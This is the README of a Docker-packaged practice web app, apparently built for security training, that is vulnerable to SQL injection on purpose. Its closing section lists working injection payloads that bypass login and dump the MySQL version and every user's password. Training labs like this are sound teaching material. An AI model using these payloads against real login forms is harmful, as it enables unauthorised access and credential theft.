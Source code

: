# startrek_payroll

A simple SQL injection vulnerable web application powered by Docker

## Project Summary

This is a simple web application that is vulnerable to SQL injection attacks. The web application is based on the `payroll_app` from the [Metasploitable3 project](https://github.com/rapid7/metasploitable3), and the PHP code is taken (almost) directly from that project. The primary contribution of this project is a Docker environment using docker-compose and consisting of Nginx, PHP and MySQL containers to run the web application easily.

## Project Instructions

Install the project requirements on your choice of operating system, including:

- Docker
- Docker Compose plugin

Run using either of the following:

- `make run`
- `docker compose up --build`

Open web browser and visit:

- `localhost:8080`

Clean the Docker environment (after making changes):

- `make clean`

## Example Payloads

1. Normal login to get users salary:
    - `username`: `james_kirk`
    - `password`: `kobayashi_maru`

2. Dump username and salary of all users:
    - `username`: `' OR 1=1#`
    - `password`: `anythingyouwant`

3. Dump MySQL version:
    - `username`: `' UNION SELECT null,@@version#`
    - `password`: `anythingyouwant`

4. Dump all users passwords:
    - `username`:  `' UNION SELECT username,CONCAT(first_name, ' ', last_name),password FROM users#`
    - `password`: `anythingyouwant`

